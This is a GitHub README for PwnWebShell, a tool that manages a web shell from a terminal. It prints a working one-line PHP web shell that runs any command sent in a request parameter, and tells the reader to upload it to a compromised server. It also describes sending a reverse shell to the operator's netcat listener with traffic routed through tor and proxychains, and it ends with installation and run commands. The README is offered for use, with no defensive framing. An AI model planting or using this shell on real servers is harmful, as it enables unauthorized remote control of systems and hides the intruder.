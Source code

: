 # PwnWebShell

![pwnimg](https://raw.githubusercontent.com/DarkTrojanDev/PwnWebShell/main/img/pwnwebshell1.jpg)

Tool to facilitate the management of our webshell from a terminal.

All we need, is to upload to the committed server a PHP structure like the following to execute commands:

```
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

After that specify the url where the .php file is located in the script variable called url_webshell, example url_webshell="https://example.com/shell.php"

![demo](https://raw.githubusercontent.com/DarkTrojanDev/PwnWebShell/main/img/url_example.png)

You can configure the reverse shell, specify your IP address and the port on netcat listening.

![demo](https://raw.githubusercontent.com/DarkTrojanDev/PwnWebShell/main/img/reverse.png)

**Requirements - curl tor proxychains rlwrap**

`sudo apt install curl tor proxychains-ng rlwrap -y`

**Installation**

  
1. `git clone https://github.com/DarkTrojanDev/PwnWebShell.git`


2. `chmod +x pwnwebshell.sh`


**Execution**
	
1. `sudo rlwrap ./pwnwebshell.sh`


**Demo Video**

url: https://b.top4top.io/m_2334y6geq1.mp4

